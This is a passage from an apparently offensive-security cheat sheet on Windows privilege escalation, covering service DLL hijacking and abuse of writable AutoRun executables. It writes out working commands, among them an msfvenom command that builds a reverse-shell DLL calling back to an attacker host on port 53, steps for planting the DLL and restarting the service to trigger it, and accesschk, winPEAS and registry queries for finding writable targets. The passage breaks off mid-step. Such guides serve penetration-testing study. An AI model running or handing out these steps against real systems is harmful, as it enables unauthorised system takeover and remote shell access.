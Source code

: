     ```
    > .\accesschk.exe /accepteula -uvqc user service_name
    ```
3.  If the service is vulnerable to DLL Hijacking.

    ```
    > sc qc service_name
    ```

    > Note: Use ProcMon.exe to see if the executable uses any DLL files.
4.  Start the service:

    ```
    > net start service_name
    ```
5.  On our host, we'll generate a reverse shell DLL named dll\_hijacking.dll:

    ```
    # msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o dll_hijacking.dll
    ```
6.  Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on our host (e.g Kali or Parrot) and then stop/start the service to trigger the exploit:

    ```
    > net stop service_name
    > net start service_name
    ```

## Registry

### AutoRuns

When Windows starts up, it may be configured to perform commands with elevated privileges. These "AutoRuns" are set up via the Registry. If you can write to an AutoRun executable and restart the system, you might be able to elevate privileges (or wait for it to restart).

#### AutoRuns Privilege Escalation Methodology

1.  Use winPEAS to check for writable AutoRun executables:

    ```
    .\winPEASany.exe quiet applicationsinfo
    ```
2.  Alternatively, we could manually enumerate the AutoRun executables:

    ```
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    ```

    and then use accesschk.exe to verify the permissions on each one:

    ```
    .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
    ```
3.  The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

